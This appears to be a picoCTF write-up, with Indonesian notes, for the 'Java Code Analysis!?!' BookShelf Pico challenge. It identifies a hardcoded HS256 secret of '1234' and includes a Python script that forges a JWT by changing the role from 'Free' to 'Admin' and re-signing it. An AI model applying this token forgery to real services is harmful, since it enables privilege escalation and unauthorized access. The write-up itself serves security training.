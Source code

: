 <h1>Java Code Analysis!?!</h1>
<h3>Description</h3>
<pre>
BookShelf Pico, my premium online book-reading service.
I believe that my website is super secure. I challenge you to prove me wrong by reading the 'Flag' book!
Here are the credentials to get you started:
Username: "user"
Password: "user"
Source code can be downloaded <a href='https://artifacts.picoctf.net/c/480/bookshelf-pico.zip'>here</a>.
Website can be accessed <a href='http://saturn.picoctf.net:61120/'>here!</a>.
</pre>
<h3>Description</h3>
<label>Secret HS256 = 1234, cek di src/main/java/io/github/nandandesai/pico/security/SecretGenerator.java</label><br>
<label>Cek JWT di localstorage</label>

```python
import base64
import hmac
import jwt
import hashlib

jwt = 'eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJyb2xlIjoiRnJlZSIsImlzcyI6ImJvb2tzaGVsZiIsImV4cCI6MTc2MTY5NzczMiwiaWF0IjoxNzYxMDkyOTMyLCJ1c2VySWQiOjEsImVtYWlsIjoidXNlciJ9.kthTdtFMey2KufoA87CVrb3gccXdRNdc7FlwnuZPtSc'
secret = '1234'

header = base64.b64decode(jwt.split('.')[0].encode()).decode()
header_base64 = base64.urlsafe_b64encode(header.encode()).decode().rstrip("=")
payload = base64.b64decode(jwt.split('.')[1].encode()).decode().replace('Free','Admin')
payload_base64 = base64.urlsafe_b64encode(payload.encode()).decode().rstrip("=")
message = f"{header_base64}.{payload_base64}"
signature = hmac.new(secret.encode(), message.encode(), hashlib.sha256).digest()
signature_base64 = base64.urlsafe_b64encode(signature).decode().rstrip("=")
jwt = f"{message}.{signature_base64}"
print(payload)
print(jwt)
```
<label>Ganti JWT dari localstorage dan token payload<label>
<h3>Flag</h3>
<pre>

</pre>
